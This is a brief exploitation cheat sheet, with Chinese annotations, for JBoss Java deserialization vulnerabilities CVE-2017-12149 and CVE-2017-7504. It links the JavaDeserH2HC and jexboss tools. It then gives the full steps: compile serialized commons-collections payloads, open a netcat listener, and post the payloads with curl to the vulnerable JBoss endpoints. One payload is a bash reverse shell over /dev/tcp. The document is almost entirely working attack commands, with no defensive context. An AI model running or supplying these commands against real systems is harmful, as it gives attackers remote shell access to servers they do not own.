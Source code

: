https://github.com/joaomatosf/JavaDeserH2HC
https://github.com/joaomatosf/jexboss



CVE-2017-12149:
cd JavaDeserH2HC

javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java ip:port (nc监听IP及端口）

nc -l -vv -p port

curl http://xxxxx:8080/invoker/readonly –data-binary @ReverseShellCommonsCollectionsHashMap.ser



CVE-2017-7504:
cd JavaDeserH2HC

javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1.java

java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1 '/bin/bash -i&>&/dev/tcp/ip/port<&1'

nc -l -vv -p port

curl http://xxxxx:8080/jbossmq-httpil/HTTPServerILServlet –data-binary @ExampleCommonsCollections1.ser
